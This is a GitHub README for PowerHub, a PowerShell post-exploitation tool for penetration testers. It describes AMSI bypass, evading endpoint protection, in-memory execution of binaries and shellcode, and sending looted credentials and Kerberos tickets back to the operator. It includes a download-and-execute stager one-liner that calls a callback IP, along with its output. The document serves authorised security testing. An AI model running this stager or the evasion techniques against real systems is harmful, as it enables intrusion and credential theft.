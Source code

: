 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs


![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> $K=New-Object Net.WebClient;'a=reflection','t=http'|%{IEX $K.DownloadString('http://192.168.11.2:8080/0?'+$_)}
True
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
1.11                        written by Adrian Vollmer, 2018-2022
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView


Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```


Installation
============

PowerHub can be installed like any other Python package. Just execute
`python3 -m pip install powerhub`. If you like to work with virtual
environments, I recommend [pipx](https://github.com/pypa/pipx/).

If you want to use the latest version on the dev branch, clone this
repository and install with `python3 -m pip install -e .`.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `powerhub --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2023

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
